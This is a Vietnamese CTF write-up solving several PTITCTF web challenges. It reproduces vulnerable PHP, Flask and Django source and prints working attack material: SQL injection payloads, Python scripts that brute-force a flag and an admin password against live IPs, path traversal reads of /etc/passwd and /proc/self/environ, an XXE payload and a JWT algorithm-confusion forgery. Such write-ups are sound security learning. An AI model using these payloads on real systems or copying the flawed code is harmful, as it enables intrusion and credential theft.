# Web

## Web_0

chúng ta được cung cấp 1 file `index.php`:
```php
<?php
error_reporting(0);
include("db.php");
function check($input){
	  $forbid = "0x|0b|limit|glob|php|load|inject|month|day|now|collationlike|regexp|limit|_|information|schema|char|sin|cos|asin|procedure|trim|pad|make|mid";
      $forbid .= "substr|compress|where|code|replace|conv|insert|right|left|cast|ascii|x|hex|version|data|load_file|out|gcc|locate|count|reverse|b|y|z|--";
      if (preg_match("/$forbid/i", $input) or preg_match('/\s/', $input) or preg_match('/[\/\\\\]/', $input) or preg_match('/(--|#|\/\*)/', $input)) {
      	die('forbidden');
}
}

$user=$_GET['user'];
$pass=$_GET['pass'];
check($user);check($pass);
$sql = @mysqli_fetch_assoc(mysqli_query($db,"SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';"));
 if($sql['username']){
 	echo 'welcome \o/';
 	die();
 }
 else{
 	echo 'wrong !';
 	die();
 }

?>
```

web hoạt động như truy vấn thông tin tài khoản trong `database` bằng cách truyền vào `url` theo phương thức `GET` các tham số `user` và `pass` để thực hiện truy vấn

trong code bao gồm các thông tin:
- `error_reporting(0);`: là tắt toàn bộ thông báo lỗi, điều này xảy ra khi ta chèn lỗi thì hệ thống vẫn `status 200` nhưng k trả về gì trong thử thách 
- `check($input)`: hàm `check` kiểm tra đầu vào và thiết lập danh sách cấm các kí tự, chuỗi, hàm trong `$forbid` và cả các dấu `comment` và khoảng trắng, nếu các phần tử có xuất hiện trong `$forbid` đều ra thông báo `forbidden`.
- nếu câu truy vấn thành công và đúng thì sẽ hiển thị ra thông báo `welcome`, còn sai thì `wrong`.

thoạt nhìn vào danh sách cấm thì có lẽ đây là một thử thách khó về `sql injection`, hãy thử từng bước:
- bắt đầu với: `admin'or'1'='1` (chúng ta có thể truy vấn k cần khoảng cách)



kết quả chúng ta đã thành công và nhận thông báo `welcome`. Vậy tiếp theo nên khai thác như nào?
Ta có thể thấy bị chặn gần như mọi thứ, để biết được trong database hiện tại có còn bảng gì k tôi đã dùng tới: `'or((select(min(1))from`T`)>0)='1` với T chính là bảng cần xem có tồn tại hay k và kèm theo đó là kiểm tra bảng có dữ liệu hay k, tất nhiên đây là đoán và may là có thể thấy được có tồn tại 1 bảng `flag`, thực nghiệm trên trường `pass`



và tương tự ta có thể tìm được cột trong `flag` là `flag`, tận dụng điều đó ta có thể tìm được độ dài flag là 27 và bắt đầu từ `PTITCTF{`





đến đây tôi cũng đã tận dụng hàm `like` để bruteforce tìm flag nhưng mất rất nhiều rào cản vì bị cấm rất nhiều, nêu bạn có thể tìm được kí tự bị cấm chẳng hạn như `_` hay `b|x|y|z` thì cũng k thể tìm được kí tự sau đó nữa. Đến đây tôi đã đọc lại code và phát hiện có một logic code giúp ta có thể khai thác bằng cách `bruteforce`, hãy quan sát vào `$forbid`, tại sao k dồn hết vào 1 hàng mà dùng nối chuỗi? Nếu kĩ hơn ta có thể thấy `$forbid` sau cùng sẽ là:

```php
$forbid = "0x|0b|limit|glob|php|load|inject|month|day|now|collationlike|regexp|limit|_|information|schema|char|sin|cos|asin|procedure|trim|pad|make|midsubstr|compress|where|code|replace|conv|insert|right|left|cast|ascii|x|hex|version|data|load_file|out|gcc|locate|count|reverse|b|y|z|--"
```

khi này cuối chuỗi đầu sẽ nối vào phần đầu của chuỗi thứ 2 tạo ra phần tử `midsubstr`, ta có thể bypass được vì code trên kiểm tra tồn tại của phần từ trong input chứ k phải kiểm tra theo dạng chuỗi con từ input

ta có thể dùng `mid` để khai thác chính xác vị trí thay vì `substr` vì bị cấm mất kí tự `b`, những vị trí hiện `forbidden` sẽ chính là `_` hay `b|x|y|z`

payload: ```'or(mid((select(min(`flag`))from`flag`),1,7)='PTITCTF')or'```



tiếp theo tôi đã viết một `script` để `bruteforce` flag, nếu tại vị trí k tìm được thì thay bằng `?`

```python
import requests
import string

URL = "http://103.197.184.163:12113/"

CHARSET = string.ascii_letters + string.digits + "{}"

def test_payload(pos, ch):
    payload = f"'or(mid((select(min(`flag`))from`flag`),{pos},1)='{ch}')or'"
    params = {"user": payload, "pass": "a"}
    try:
        r = requests.get(URL, params=params, timeout=5)
        return "welcome" in r.text
    except requests.exceptions.RequestException:
        return False

def brute_flag(maxlen=28):
    flag = ""
    for pos in range(1, maxlen+1):
        found = False
        for ch in CHARSET:
            if test_payload(pos, ch):
                flag += ch
                print(f"[+] Found char {pos}: {ch} -> {flag}")
                found = True
                break
        if not found:
            flag += "?"
            print(f"[?] Unknown char at pos {pos} -> {flag}")

    return flag

if __name__ == "__main__":
    final_flag = brute_flag(50) 
    print("Final Flag:", final_flag)
```



tôi đã thử và flag là `PTITCTF{n0_w4f_c4n_st0p_m3}`

## Web_1

tại màn hình đăng nhập tôi đã thử thành công với `username=admin" --` và `password=<anything>` 



nhưng hầu như k có gì ngoài giao diện `upload` thoạt nhìn tôi nghĩ đến đây là file upload nhưng k phải v, hãy cũng thử up gì đó lên





hệ thống phía sau đã bỏ qua các đuôi file nguy hiểm, tôi đã thử bấm vào đường dẫn file mới upload thì ngay lập tức tải về



tôi thử với lỗ hổng `pathtraversal` để tìm tới `/etc/passwd`





chúng ta có thể thấy đã thành công lấy được nó, tiếp tục hãy thử lấy `flag.txt`



ta k thấy nó, có thể nó được ẩn đâu đó, do server được code bằng python nên tôi đã thử tìm đến `app.py` hoặc `main.py`, ... và thấy được sorce code.



```python
import os
from flask import Flask, render_template, request, redirect, url_for, send_file, session, flash
import sqlite3
import hashlib
from werkzeug.utils import secure_filename
import time
import threading

app = Flask(__name__)
app.secret_key = os.urandom(24)

DATABASE = 'database.db'
UPLOAD_DIR = 'uploads'

MAX_CONTENT_LENGTH = 2 * 1024 * 1024
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'png', 'jpg',
                      'jpeg', 'gif', 'zip', 'doc', 'docx', 'xlsx', 'pptx'}

def get_db():
    conn = sqlite3.connect(DATABASE)
    conn.row_factory = sqlite3.Row
    return conn


def init_db():
    with get_db() as conn:
        cursor = conn.cursor()
        cursor.execute('''
            CREATE TABLE IF NOT EXISTS users (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                username TEXT NOT NULL UNIQUE,
                password TEXT NOT NULL
            )
        ''')
        print("Database initialized.")


def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        hashed_password = hashlib.sha256(password.encode()).hexdigest()

        conn = get_db()
        user = conn.execute('SELECT * FROM users WHERE username = "' + username + '" AND password = "' + hashed_password + '"').fetchone()
        conn.close()

        if user:
            session['logged_in'] = True
            session['username'] = user['username']
            flash('Login successful!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('Invalid credentials', 'error')
            return render_template('login.html', error='Invalid credentials')

    message = request.args.get('message')
    return render_template('login.html', message=message)


@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        if not username or not password:
            flash('Username and password are required.', 'error')
            return render_template('register.html', error='Username and password are required.')

        hashed_password = hashlib.sha256(password.encode()).hexdigest()

        conn = get_db()
        try:
            conn.execute('INSERT INTO users (username, password) VALUES (?, ?)',
                         (username, hashed_password))
            conn.commit()
            conn.close()
            flash('Registration successful! Please log in.', 'success')
            return redirect(url_for('login', message='Registration successful! Please log in.'))
        except sqlite3.IntegrityError:
            conn.close()
            flash('Username already exists. Please choose a different one.', 'error')
            return render_template('register.html', error='Username already exists. Please choose a different one.')
        except Exception as e:
            conn.close()
            flash(f'An unexpected error occurred: {e}', 'error')
            return render_template('register.html', error=f'An error occurred: {e}')
    return render_template('register.html')


@app.route('/dashboard')
def dashboard():
    if not session.get('logged_in'):
        return redirect(url_for('login'))

    return render_template('dashboard.html', username=session['username'])


@app.route('/upload', methods=['POST'])
def upload_file():
    if not session.get('logged_in'):
        flash('Please log in to upload files.', 'error')
        return redirect(url_for('login'))

    if 'file' not in request.files:
        flash('No file part', 'error')
        return redirect(url_for('dashboard'))

    file = request.files['file']
    with open('time.txt', 'r') as f:
        start = f.read().strip()
        if time.time() - float(start) > 5*60:
            for filename in os.listdir(UPLOAD_DIR):
                filepath = os.path.join(UPLOAD_DIR, filename)
                os.remove(filepath)

    if file.filename == '':
        flash('No selected file', 'error')
        return redirect(url_for('dashboard'))

    if file and allowed_file(file.filename):
        file.seek(0, os.SEEK_END)
        file_size = file.tell()
        file.seek(0)

        if file_size > MAX_CONTENT_LENGTH:
            flash(
                f'File size exceeds the limit of {MAX_CONTENT_LENGTH / (1024 * 1024)}MB.', 'error')
            return redirect(url_for('dashboard'))

        filename = secure_filename(file.filename)
        filepath = os.path.join(UPLOAD_DIR, filename)

        timestamp = int(time.time())
        original_filepath_without_ext, ext = os.path.splitext(filepath)
        while os.path.exists(filepath):
            filepath = f"{original_filepath_without_ext}_{timestamp}{ext}"
            filename = os.path.basename(filepath)

        try:
            file.save(filepath)
            download_url = url_for(
                'download_file', filename=filename, _external=True)
            flash(
                f'File "{filename}" uploaded successfully! You can download it <a href="{download_url}">here</a>.', 'success')
            return redirect(url_for('dashboard'))
        except Exception as e:
            flash(f'Error uploading file: {e}', 'error')
            return redirect(url_for('dashboard'))
    else:
        flash('File type not allowed or no file selected.', 'error')
        return redirect(url_for('dashboard'))


@app.route('/download', methods=['GET'])
def download_file():
    if not session.get('logged_in'):
        flash('Please log in to download files.', 'error')
        return "Unauthorized: Please log in.", 401

    filename = request.args.get('filename')

    if not filename:
        flash("Missing 'filename' parameter for download.", 'error')
        return "Error: Missing filename parameter.", 400

    download_path = os.path.join(UPLOAD_DIR, filename)

    if os.path.exists(download_path) and os.path.isfile(download_path):
        try:
            return send_file(download_path, as_attachment=True)
        except Exception as e:
            flash(f'Error serving file: {e}', 'error')
            return f"Error serving file: {e}", 500
    else:
        flash('File not found.', 'error')
        return "File not found.", 404


@app.route('/logout')
def logout():
    session.pop('logged_in', None)
    session.pop('username', None)
    flash('You have been logged out.', 'info')
    return redirect(url_for('login'))


if __name__ == '__main__':
    init_db()
    with open('time.txt', 'w') as f:
        f.write(str(time.time()))   
    app.run(debug=False, host='0.0.0.0', port=5000)
```

tôi đã phân tích một lúc và k thấy được nhiều điều, hoặc có thể tôi đã k nhìn ra, tiếp tục tôi đã tìm đến môi trường này `/proc/self/environ` và thấy được nơi chứa `flag`



`/app/this_is_secret_folder_aahahahaha/flag.txt`



flag: `PTITCTF{SQL_nahhhh_P4th_Tr4v3rS1}`

## Web_2

đây là một thử thách về `jwt` chuyển đổi thuật toán từ `rs256 -> hs256` bằng công cụ để thao tác. Để làm được điều này ta cần có file key, tôi đã tìm được dựa vào `dirsearch`







tool để chuyển đổi từ `rs256 -> hs256` là [JWTconverter](https://github.com/Logeirs/JWTconverter)

để thực hiện được ta cần tạo file `pubkey.pem` dựa vào thông tin từ file `/.well-known/jwks.json`

```python
from Crypto.PublicKey import RSA
import base64
import json

jwks = {
  "kty": "RSA",
  "n": "zf1c1FAyg0btbcnxfuQzTQMqpi7RaZ78KQYLT69DgM9lJ6AfkhqUpuLCwK4NL0emQgbj2CkVGvTQKyejhCqQE9RagMgFFl2o2kpJpEIfab08XB0tqJn-q770xUgUQPA1h9PlD2SnHmorVNwOKcKGSj862CryvS2b7Xf3BkKCt_75AlbUGGTS9RumrZIeQYfyVfTERuRtaus3Et2KWwRA_DCAg19k3YGcs2dKqzUZwL-OqogA5PobjrEzlmVuWpe5bIuzW1mP_lkdaEWwJxF2yAZBF_aQlAVYSLMAW3Z2stU3cwLtCb2M2sJOMmn6cG6cBEr3Yw2lgiiQNGne3WJSOw",
  "e": "AQAB"
}

n = int.from_bytes(base64.urlsafe_b64decode(jwks["n"] + "=="), "big")
e = int.from_bytes(base64.urlsafe_b64decode(jwks["e"] + "=="), "big")

pub_key = RSA.construct((n, e))
with open("pubkey.pem", "wb") as f:
    f.write(pub_key.exportKey("PEM"))
```



trước đó ta phải sửa `role` trong `json` thành `amdin` để tạo `token` rồi mới chuyển đổi (hãy chỉnh sửa trực tiếp trong `burpsuite` với extension `JSON Web Tokens`)







flag: `PTITCTF{WOWWW_JSON_W3b_T0k3n}`

## Web_3

đây là một web cơ bản với chức năng nhận đáp án và server hiển thị ra, tôi đã thử truyền dữ liệu thành `application/x-www-form-urlencoded` để xem phản hồi



server phản hồi có thể sử dụng `application/xml`, khả năng cao là chúng ta có thể khai thác lỗ hổng `XXE`. Dựa vào việc server xử lý ở key là `answer` nên tôi đã custom payload để gửi lên



payload

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <answer>&xxe;</answer>
</root>
```

và tiếp tục tôi đã truy cập vào `/app/app.py` để xem code và đường dẫn đến `flag` nằm ở đó





flag: `PTITCTF{xml_3xtern41_Ent1Ty_4TT4ck}`

## Web_5

chúng ta được cung cấp sorce lớn để kiểm tra, dây là ứng dụng game được viết bằng `Django` và có các thôgn tin như game, employee, scoreboard, level, release. ta có thể thấy được flag sẽ nằm trong `seed.py` tại trường có `id=17`
- tại `serializer.py` là các đối tượng.
- tại `views.py` chính là các đối tượng chế độ xem
- tại `urls.py` là các đường dẫn `API`

trước tiên ta cần truy cập web và xem thông tin



từ file `seed.py` ta có thể thấy flag nằm trong `body` của trường thông tin. Từ đó tôi đã xem các class và thấy rằng tại `class ScoreboardView` sẽ gọi đến `ScoreboardSerializer(scoreboard, many=True)`



và đối tượng `ScoreboardSerializer` lại có gọi đến `GameSerializer` và trong đây có chứa và hiển thị ra body các đối tượng, hãy thử truy cập đến `/api/scoreboard` ta sẽ thấy `flag`



flag: `PTITCTF{ByP4ss_4uth3n_By_G4m3}`

## Web_4

tôi chỉ khai thác được bước đầu của thử thách này và vẫn đang chờ đợi cách xử lý khác. Trong thử thách này chúng ta cần quan sát các file quan trọng tại: `sandbox.py` và `views.py`

`views.py`

```python
from django.shortcuts import render, redirect
from django.contrib.auth.models import User
from django.contrib.auth import login, logout
from django.contrib.auth.decorators import login_required
from urllib.parse import parse_qs
from .sandbox import unpickle

@login_required(login_url='login')
def HomePage(request):
    if request.method == 'POST':
        user_data = parse_qs(request.body.decode('utf-8'))
        user_data.pop('csrfmiddlewaretoken', None)
        user_data = {k: v[0] for k, v in user_data.items()}
        try:
            users = []
            user = User.objects.filter(**user_data).first()
            if user is not None:
                users.append(user)
                return render(request, 'home.html', {'users': users})
            else:
                context = {'error_message': 'Username is not found'}
                return render(request, 'home.html', context)
        except Exception:
            context = {'error_message': 'An error occurred'}
            return render(request, 'home.html', context)
    return render(request, 'home.html')

def SignupPage(request):
    if request.user.is_authenticated:
            return redirect('home')

    if request.method == 'POST':
        user_data = {
            'username': request.POST.get('username'),
            'email': request.POST.get('email'),
            'password': request.POST.get('password'),
        }
        confirm_password = request.POST.get('confirm_password')
        
        if user_data['password'] != confirm_password:
            context = {'error_message': 'Your password and confirm password are not the same!'}
            return render(request, 'signup.html', context)
        else:
            try:
                if not user_data['username'] or not user_data['email']:
                    context = {'error_message': 'Username or Email cannot be empty!'}
                    return render(request, 'signup.html', context)
                elif not user_data['password'] or not confirm_password:
                    context = {'error_message': 'Password cannot be empty!'}
                    return render(request, 'signup.html', context)
                
                user = User.objects.create(**user_data)
                user.save()
                return redirect('login')
            except Exception:
                context = {'error_message': 'An error occurred'}
                return render(request, 'signup.html', context)

    return render(request, 'signup.html')

def LoginPage(request):
    if request.user.is_authenticated:
        return redirect('home')
    
    if request.method == 'POST':
        user_data = {
            'username': request.POST.get('username'),
            'password': request.POST.get('password')
        }
        try:
            user = User.objects.filter(**user_data).first()
            if user is not None:
                login(request, user)
                return redirect('home')
            else:
                context = {'error_message': 'Username or Password is incorrect!!!'}
                return render(request, 'login.html', context)
        except Exception:
            context = {'error_message': 'An error occurred'}
            return render(request, 'login.html', context)

    return render(request, 'login.html')

def LogoutPage(request):
    try:
        logout(request)
    except Exception:
        context = {'error_message': 'An error occurred'}
        return render(request, 'home.html', context)
    return redirect('login')

def AdminPage(request):
    if not request.user.is_authenticated:
        return redirect('login')
    if request.user.is_staff:
        if request.method == 'POST':
            pickle_data = request.POST.get('pickle_data')
            try:
                result = unpickle(pickle_data)
                context = {'error_message': f'{result}'}
                return render(request, 'admin.html', context)
            except Exception:
                context = {'error_message': 'An error occurred'}
                return render(request, 'admin.html', context)
        return render(request, 'admin.html')

    return redirect('home')
```

`sandbox.py`

```python
from base64 import b64decode
from io import BytesIO
import pickle as _pickle

ALLOWED_MODULES = ['__main__', 'app', 'request']
UNSAFE_NAMES = ['__setattr__', '__delattr__', '__dict__', '__getattribute__', '__getitem__', '__subclasses__', 'eval']
BLACKLISTED_NAMES = ['__globals__', '__import__', '__base__', '__builtins__', 'os', 'sys', 'system', 'popen', 'open', 'read', 'communicate']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        print(module, name)
        if (module in ALLOWED_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES) and not any(name.startswith(f"{name__}") for name__ in BLACKLISTED_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()
    
def unpickle(data):
    for name_ in BLACKLISTED_NAMES:
        if name_.encode() in b64decode(data):
            return 'hacked'
    return RestrictedUnpickler(BytesIO(b64decode(data))).load()
```

phần đầu của thử thách chính là tại `views.py`, quan sát và thấy rằng:
- tại tính năng đăng kí, mật khẩu sẽ được lưu trực tiếp dạng `plaintext`

```
user = User.objects.create(**user_data)
```
- tại tính năng trang chủ có chức năng tìm kiếm theo dữ liệu mà người dùng nhập vào:



chúng ta có thể thấy có thể tự thêm vào các trường để sử dụng, đây chính là `Lookup Django ORM`, theo đó ta có thể chèn thêm `password__regex`, `username__contains`, `username__startswith` để tận dụng khai thác `bruteforce` tìm mật khẩu `admin`, tiếp theo tại `Dockerfile` ta có thể thấy mật khẩu `admin` sẽ được tạo ngẫu nhiên khi khởi chạy và `format` là : [a-zA-Z0-9], admin có `id=1`

`Dockerfile`

```Dockerfile
FROM python:3.9

WORKDIR /app

COPY requirements.txt .

RUN pip install --no-cache-dir -r requirements.txt

COPY . .

ENV DJANGO_SETTINGS_MODULE=registration.settings
ENV PYTHONUNBUFFERED=1

RUN useradd -m ctf

RUN python manage.py makemigrations
RUN python manage.py migrate

RUN mv flag.txt /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 64 | head -n 1).txt && \
    chmod 644 /flag-*.txt

RUN apt-get update && apt-get install -y sqlite3 && \
    sqlite3 db.sqlite3 "UPDATE auth_user SET password='$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 128 | head -n 1)' WHERE id=1;"

RUN chown -R ctf:ctf /app

EXPOSE 8000

USER ctf
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
```

đến đây tôi đã dùng `password__regex` để `bruteforce` đúng các kí tự hoa, thường, số. Nếu dùng `__startswith` sẽ chỉ thu thập được mật khẩu ở dạng thường.



khi đúng sẽ thấy được đúng thôgn tin cuả `admin` theo `username` đã nhập



`script`

```python
import requests, re

BASE = "http://103.197.184.163:8002"
SESSIONID = "yfla6rkmbdf9rkcfxvop69xdy7dhoe05"
CSRFTOKEN = "m8oI8eKx062If3bmcmoweh1KmjlsVSPD"
TARGET_USER = "admin"
EXPECTED_LEN = 128

ALPH = list("0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz")

s = requests.Session()
s.headers.update({"User-Agent": "bf/2.1"})

def host_no_port(url):
    h = url.split("://",1)[-1].split("/",1)[0]
    return h.split(":",1)[0]  

HOST = host_no_port(BASE)
s.cookies.set("sessionid", SESSIONID, domain=HOST, path="/")
s.cookies.set("csrftoken", CSRFTOKEN, domain=HOST, path="/")

_csrf_cache = None

def extract_csrf_from_html(html: str):
    m = re.search(r'name=["\']csrfmiddlewaretoken["\']\s+value=["\']([^"\']+)["\']', html)
    return m.group(1) if m else None

def get_csrf():
    global _csrf_cache
    if _csrf_cache:
        return _csrf_cache

    r = s.get(f"{BASE}/home/", timeout=10, allow_redirects=True)
    r.raise_for_status()
    tok = extract_csrf_from_html(r.text)
    if tok:
        _csrf_cache = tok
        return tok

    r = s.get(f"{BASE}/login/", timeout=10, allow_redirects=True)
    r.raise_for_status()
    tok = extract_csrf_from_html(r.text)
    if tok:
        _csrf_cache = tok
        return tok

    tok = s.cookies.get("csrftoken")
    if tok:
        _csrf_cache = tok
        return tok

    raise RuntimeError("Không thấy csrfmiddlewaretoken (có thể hết hạn phiên / cookie sai domain).")

def ok_regex(pattern):
    """True nếu tồn tại user; False nếu 'Username is not found'."""
    global _csrf_cache
    data = {
        "csrfmiddlewaretoken": get_csrf(),
        "username": TARGET_USER,
        "password__regex": pattern
    }
    headers = {"Referer": f"{BASE}/home/"} 
    r = s.post(f"{BASE}/home/", data=data, headers=headers, timeout=10, allow_redirects=True)
    if r.status_code == 403:
        _csrf_cache = None
        data["csrfmiddlewaretoken"] = get_csrf()
        r = s.post(f"{BASE}/home/", data=data, headers=headers, timeout=10, allow_redirects=True)
    r.raise_for_status()
    return "Username is not found" not in r.text

def re_esc(s):
    return re.sub(r'([.^$*+?{}\[\]\\|()])', r'\\\1', s)

def alt(chars):
    return "(?:" + "|".join(re_esc(c) for c in chars) + ")"

def next_char(prefix):
    """Binary-search ký tự kế tiếp với alternation."""
    lo, hi = 0, len(ALPH)
    while hi - lo > 1:
        mid = (lo + hi) // 2
        subset = ALPH[lo:mid]
        pat = "^" + re_esc(prefix) + alt(subset) + ".*$"
        if ok_regex(pat):
            hi = mid
        else:
            lo = mid
    cand = ALPH[lo]

    return cand if ok_regex("^" + re_esc(prefix + cand) + ".*$") else None

def exact(pw):
    return ok_regex("^" + re_esc(pw) + "$")

def main():
    print("[*] length =", EXPECTED_LEN)
    pw = ""
    for i in range(EXPECTED_LEN):
        ch = next_char(pw)
        if not ch:
            print(f"\n[!] Không tìm được ký tự tại vị trí {i}. Kiểm tra lại cookie/regex/CSRFTOKEN.")
            break
        pw += ch
        print(f"[+]{i+1:03d}/{EXPECTED_LEN}  {pw}")
    print("\n[=] exact on /home/:", exact(pw))
    print("[=] password:", pw)

if __name__ == "__main__":
    main()
```



admin password: `ufm2zYo8SLc8PC0NhJhAdgFsdGnVDgZjhBfhtGjNhu9Cxof8eWhep6CWvFxNVuzstDvTwvF9Wk8CdcntV9r5mxxC2DKL6aRH7RcxBbX47fEbZ61tfI21NFVQrIsSWYsj`



ở lỗ hổng tiếp theo nằm ở việc bypass `sanbox.py` để tạo ra dữ liệu độc hại qua việc lợi dụng `pickle` của python nhưng tôi chưa khai thác được :(((


